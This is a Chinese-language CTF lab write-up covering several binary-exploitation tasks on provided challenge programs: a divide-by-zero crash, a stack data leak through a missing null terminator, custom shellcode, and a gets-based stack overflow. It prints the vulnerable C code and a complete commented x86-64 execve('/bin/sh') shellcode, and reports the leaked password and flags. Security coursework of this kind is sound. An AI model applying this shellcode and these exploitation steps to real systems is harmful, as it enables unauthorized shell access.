







# Task 1

分析源码，其功能为将输入的十进制数转换为目标进制数，过程存在以下问题：

```c
for (; i > 0; i--) {
    j = a / pow(b, i - 1);
    printf("%d", j);
    a = a % (int)pow(b, i - 1);
}
```

此处可能存在除 0 错误，使用攻击代码`nocrash.py`（见 attachments）所得结果如下：

所得 flag 为`AAA{pr0GraM_C4n_ea5ilY_crAsH}`。

# Task 2

分析源码，观察到`password`与`password_verify`在栈上连续存储：

```c
char username[BUFFER_SIZE];
char password[BUFFER_SIZE];
char password_verify[BUFFER_SIZE];
```

当验证密码为错误跳转到`wrong_password`标记时，观察到此处在`printf`中使用了`%s`：

```c
wrong_password:
	printf("What's wrong with you? Are you a hacker?\n");
	printf("----------------- LOG -----------------\n");
	printf("you input name as %s (len %d)\n", username, strlen(username));
	printf("you input password as %s (len %d)\n", password, strlen(password));
	printf("---------------------------------------\n");
	return -1;
```

同时`get_password`函数中使用了`read`读取代码：

```c
int get_password(char *name, char *buf)
{
	unsigned int length;
	printf("Hello %s, please tell me the length of your password\n", name);
	scanf("%d", &length);

	if (length > BUFFER_SIZE)
	{
		printf("you password is way too long");
		return -1;
	}
	else
	{
		printf("cool, input your password\n");
		return read(STDIN_FILENO, buf, BUFFER_SIZE);
	}
}
```

当输入密码长度大于`BUFFER_SIZE`即 32 时，可使得读入的密码`char []`末尾不带`\0`，从而在`printf`中输出后续栈上的数据，利用这一点可以泄露`password_verify`内容，得到正确的密码后即可打开 shell。

以下为完整攻击过程：

1. 通过上述原理获得`password_verify`的内容，得到正确密码`ILovePlayCTFbtwAlsoDota2!`。
   
2. 利用上述密码成功打开 shell，`ls`发现文件`flag2`，`cat flag2`得到 flag 后半部分`CK_Ne3d_C1a4n}`，观察到源码中另一分支中获得的`FLAG1`为环境变量，则`echo $FLAG1`得到 flag 前半部分`AAA{Oh_D1rTy_sta`，拼接得到 flag 为`AAA{Oh_D1rTy_staCK_Ne3d_C1a4n}`。
   

# Task 3

## `delegate`代码

按要求编写满足`ADD`、`SUB`、`AND`、`OR`、`XOR`各功能的汇编代码，并利用 pwntools 的 asm 模块转换为机器码，整合于`delegate.py`（见 attachments），执行结果如下：

得到 flag 第一部分：`AAA{SheL1c0de_T0`。

## shellcode

利用 pwntools 的 shellcraft 模块生成的 shellcode 如下：

```nasm
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68                             ; 将字符 'h' (0x68) 压入栈中
mov rax, 0x732f2f2f6e69622f           ; 将 "/bin///s" 字符串的64位表示加载到rax
push rax                              ; 将 "/bin///s" 压入栈中
mov rdi, rsp                          ; rdi为栈指针，指向字符串 "/bin///sh" 的起始地址
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873               ; 将异或编码的 "sh" 字符串压入栈中 (避免null字节)
xor dword ptr [rsp], 0x1010101        ; 对栈顶的值进行异或操作，恢复原始的 "sh\x00" 字符串

xor esi, esi                          ; 将esi寄存器清零
push rsi                              ; 压入null指针 (0)，作为argv数组的终止符
push 8                                ; 将8压入栈中
pop rsi                               ; 将8弹出到rsi寄存器
add rsi, rsp                          ; rsi = rsp + 8，计算指向 "sh" 字符串的地址
push rsi                              ; 将指向 "sh" 字符串的指针压入栈中
mov rsi, rsp                          ; rsi = 栈指针，指向argv数组的起始地址

xor edx, edx                          ; 将edx清零，表示envp参数为null

/* call execve() */
push 0x3b                             ; 将系统调用号59 (execve) 压入栈中
pop rax                               ; 将系统调用号弹出到rax寄存器
syscall                               ; 执行系统调用 execve("/bin///sh", ["sh", NULL], NULL)
```

执行`shellcode.py`（见 attachments），执行结果如下：

得到 flag 第二部分：`9E7_All_F1ag5}`，拼接得到 flag 为`AAA{SheL1c0de_T0_9E7_All_F1ag5}`。

# Task 4

分析源码，观察到存在栈溢出风险：

```c
char buffer[32];
// ...
gets(buffer);
```

结合源码中动态内存映射实现及通过 IDA 静态分析、pwndbg 动态分析结果，编写攻击脚本`bsofsc.py`（见 attachments），执行结果如下：

得到 flag 为`AAA{R37_t0_guEs5_shE1Lc0d3_poS}`。

# Bonus

分析源码，直接发送 shellcode （此处pwntools生成的shellcode）即可，编写攻击脚本`bonus.py`（见 attachments），执行结果如下：

得到flag为`AAA{lgm_is_a_big_turtle_qq_qun_386796080}`
